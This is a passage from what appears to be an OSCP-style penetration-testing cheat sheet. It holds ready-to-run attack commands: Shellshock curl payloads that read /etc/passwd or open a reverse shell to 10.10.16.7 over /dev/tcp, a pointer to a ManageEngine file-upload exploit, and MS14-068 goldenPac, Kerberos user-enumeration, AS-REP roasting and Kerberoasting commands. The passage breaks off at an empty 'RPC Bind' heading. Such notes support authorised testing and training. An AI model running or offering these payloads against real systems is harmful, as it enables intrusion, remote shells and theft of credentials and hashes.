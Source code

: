   * curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.130.87/cgi-bin/vulnerable
  * curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.7/80 0>&1'" http://$ip/cgi-bin/vulnerable.sh
* Manage Engine ServiceDesk Plus 7.6.0
  * vulnerable to ManageEngine (Multiple Products) - (Authenticated) Arbitrary File Upload (Metasploit) metasploit module `manageengine_auth_upload`
    * To mannually exploit use python script [35845](https://raw.githubusercontent.com/AndyCyberSec/OSCP/master/35845.py)

### Kerberos

#### MS14-068

```
cd /usr/share/windows-kernel-exploits/MS14-068/pykek
```

```
rpcclient $ip -U SomeUser
```

```
lookupname SomeUser
```

```
python2 ./ms14-068.py -u user@domain.local -p SomePassword -d $ip -s SID
```

```
impacket-goldenPac domain.local/SomeUser:SomePassword@dc.domain.local
```

#### Validate users

```
kerbrute userenum users.txt -d example.com --dc 127.0.0.1
```

#### ASREPRoasting

This will get a "ticket" meaning the users have the "UF\_DONT\_REQUIRE\_PREAUTH" set and will return a hash to crack

```
python3 /usr/local/bin/GetNPUsers.py $domain/ -no-pass -usersfile users.txt -dc-ip $ip
```

#### Kerberosting

```
python3 /usr/local/bin/GetUserSPNs.py example.com/user:password -dc-ip 127.0.0.1 -request
```

```
Invoke-Kerberoast
```

### RPC Bind

